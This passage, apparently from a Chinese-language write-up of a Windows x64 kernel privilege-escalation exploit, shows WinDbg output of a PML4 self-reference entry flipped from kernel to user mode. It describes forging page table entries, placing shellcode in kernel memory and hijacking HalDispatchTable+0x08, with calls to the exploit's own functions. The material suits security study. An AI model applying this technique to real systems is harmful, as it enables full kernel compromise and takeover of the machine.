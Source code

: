     1: kd> .process /i 0xfffffa801a59c440
    
    0: kd> !pte 0xFFFFF6FB7DBEDF68
                                               VA fffff6fb7dbed000
    PXE at FFFFF6FB7DBEDF68    PPE at FFFFF6FB7DBEDF68    PDE at FFFFF6FB7DBEDF68    PTE at FFFFF6FB7DBEDF68
    contains 000000005CB99863  contains 000000005CB99863  contains 000000005CB99863  contains 000000005CB99863
    pfn 5cb99     ---DA--KWEV  pfn 5cb99     ---DA--KWEV  pfn 5cb99     ---DA--KWEV  pfn 5cb99     ---DA--KWEV

利用代码执行之后：

    0: kd> !pte 0xFFFFF6FB7DBEDF68
                                               VA fffff6fb7dbed000
    PXE at FFFFF6FB7DBEDF68    PPE at FFFFF6FB7DBEDF68    PDE at FFFFF6FB7DBEDF68    PTE at FFFFF6FB7DBEDF68
    contains 000000005CB99867  contains 000000005CB99867  contains 000000005CB99867  contains 000000005CB99867
    pfn 5cb99     ---DA--UWEV  pfn 5cb99     ---DA--UWEV  pfn 5cb99     ---DA--UWEV  pfn 5cb99     ---DA--UWEV

其中的控制位已经由 ---DA--KWEV 变成了 ---DA--UWEV。

### 创建新的页表项

PML4T自引用地址0xFFFFF6FB7DBEDF68所在的页还有好多虚拟地址没有使用，这些地址可以
用来映射我们需要访问的任何内核地址，更新物理地址和页表(U/S=1，R/W=1，NX=0)，让内
核虚拟地址在用户空间拥有RWX权限。代码中的create_spurious_pte_to_virtual_address
函数实现了该功能。

- 创建页表项使得在用户空间读取HalDispatchTable+0x08处的值：

        UINT64 original_pointer = get_OverwriteAddress_pointer(overwrite_address, overwrite_offset);

- 创建页表项把shellcode代码写入内核空间内存0xffffffffffd00d50处，并拥有执行权限：

        UINT64 shellcode_va = store_shellcode_in_hal();

- 创建页表项把shellcode的地址0xffffffffffd00d50写到HalDispatchTable+0x08位置:

        overwrite_TargetAddress(shellcode_va, overwrite_address, overwrite_offset);

### Shellcode

我们利用HalDispatchTable来提权，把HalDispatchTable+0x08处替换成shellcode的地址，
然后应用层调用NtQueryIntervalProfile函数来触发执行shellcode。

    1: kd> dq HalDispatchTable
        fffff800`04006c60  00000000`00000004 fffff800`044388e8

    1: kd> uf fffff800`044388e8
    hal!HaliQuerySystemInformation:
    fffff800`044388e8 fff3            push    rbx
    ...

    1: kd> uf NtQueryIntervalProfile
    fffff800`042120d8 e8930affff      call    nt!KeQueryIntervalProfile (fffff800`04202b70)
    
